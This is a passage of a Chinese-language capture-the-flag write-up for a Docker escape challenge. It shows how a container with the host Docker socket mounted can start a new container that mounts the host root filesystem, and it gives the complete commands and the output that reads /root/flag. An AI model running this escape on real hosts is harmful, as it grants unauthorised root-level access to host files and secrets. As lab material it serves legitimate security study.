 9215e824d67d   ba6acccedd29         "/bin/bash"              23 hours ago     Up 23 hours               0.0.0.0:5212->5212/tcp, :::5212->5212/tcp   clodreve
c6b99ec4c62c   ctf_go_v1            "/bin/bash"              31 hours ago     Up 31 hours               0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   sleepy_mcnulty
bd69b801183e   docker_escape:v1.0   "/bin/bash"              4 days ago       Exited (0) 31 hours ago                                               dreamy_tu
daeae829770c   1c4cc47f56e3         "/start.sh"              4 weeks ago      Up 3 weeks                0.0.0.0:1234->9999/tcp                      peaceful_varahamihira
/ #

然后对于与题目部分相同的环境，我们可以使用命令 `docker run -i -v /var/run/docker.sock:/s ubuntu:20.04` 创建一个容器

然后通过对映射文件`/s`的 docker 命令的操作，我们可以创建新容器，将目录映射到新容器，然后就可以输出 flag 了

命令如下

```
sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
apt update
apt install -y docker.io
docker -H unix:///s run --rm -v /:/r ubuntu:20.04 cat /r/root/flag
```

>docker -H unix:///s run --rm -v /:/r ubuntu:20.04 cat /r/root/flag
ea362f368469: Verifying Checksum
ea362f368469: Download complete
ea362f368469: Pull complete
Digest: sha256:b5a61709a9a44284d88fb12e5c48db0409cfad5b69d4ff8224077c57302df9cf
Status: Downloaded newer image for ubuntu:latest
flag{This_is_a_fake_flag}

通过运行结果可以发现输出了我们设置的 fake flag


**参考资料:**

rwctf2022体验赛 debugger & docker
https://lingze.xyz/pages/c796d2/#be-a-docker-escaper

Docker escape
https://z3ratu1.github.io/Docker%20Escape.html

Run Docker In Docker
https://vinodhakumara2681997.medium.com/run-docker-in-docker-42f381fe6b4f

Docker-in-Docker vs Docker-out-of-Docker
http://tdongsi.github.io/blog/2017/04/23/docker-out-of-docker/

Docker Tips : about /var/run/docker.sock
https://betterprogramming.pub/about-var-run-docker-sock-3bfd276e12fd

**附件**

https://github.com/CynosureSec/Imagebed/blob/main/attachment/Be-a-Docker-Escaper_915f8b3ab4554e86d6258fcb067b91ce.tar.gz
